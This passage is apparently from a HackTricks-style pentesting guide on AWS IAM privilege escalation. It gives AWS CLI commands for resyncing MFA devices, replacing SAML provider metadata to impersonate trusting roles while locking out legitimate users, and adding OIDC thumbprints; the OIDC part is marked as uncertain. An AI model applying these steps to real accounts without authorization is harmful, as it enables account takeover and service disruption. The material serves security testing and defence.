 ```bash
aws iam resync-mfa-device --user-name <value> --serial-number <value> \
    --authentication-code1 <value> --authentication-code2 <value>
```

**Potential Impact:** Indirect privesc a user if you already know his username and password by adding a MFA device.

### `iam:UpdateSAMLProvider`, `iam:ListSAMLProviders`, (`iam:GetSAMLProvider`)

With these permissions you can **change the XML metadata of the SAML connection**. Then, you could abuse the **SAML federation** to **login** with any **role that is trusting** it.

Note that doing this **legit users won't be able to login**. However, you could get the XML, so you can put yours, login and configure the previous back

```bash
# List SAMLs
aws iam list-saml-providers

# Optional: Get SAML provider XML
aws iam get-saml-provider --saml-provider-arn <ARN>

# Update SAML provider
aws iam update-saml-provider --saml-metadata-document <value> --saml-provider-arn <arn>

## Login impersonating roles that trust the SAML provider

# Optional: Set the previous XML back
aws iam update-saml-provider --saml-metadata-document <previous-xml> --saml-provider-arn <arn>
```

{% hint style="info" %}
TODO: A Tool capable of generating the SAML metadata and login with a specified role
{% endhint %}

### `iam:UpdateOpenIDConnectProviderThumbprint`, `iam:ListOpenIDConnectProviders`, (`iam:`**`GetOpenIDConnectProvider`**)

(Unsure about this) If an attacker has these **permissions** he could add a new **Thumbprint** to manage to login in all the roles trusting the provider.

{% code overflow="wrap" %}
```bash
# List providers
aws iam list-open-id-connect-providers
# Optional: Get Thumbprints used to not delete them
aws iam get-open-id-connect-provider --open-id-connect-provider-arn <ARN>
# Update Thumbprints (The thumbprint is always a 40-character string)
aws iam update-open-id-connect-provider-thumbprint --open-id-connect-provider-arn <ARN> --thumbprint-list 359755EXAMPLEabc3060bce3EXAMPLEec4542a3
```
{% endcode %}

<details><summary><strong>Support HackTricks and get benefits!</strong></summary></details>
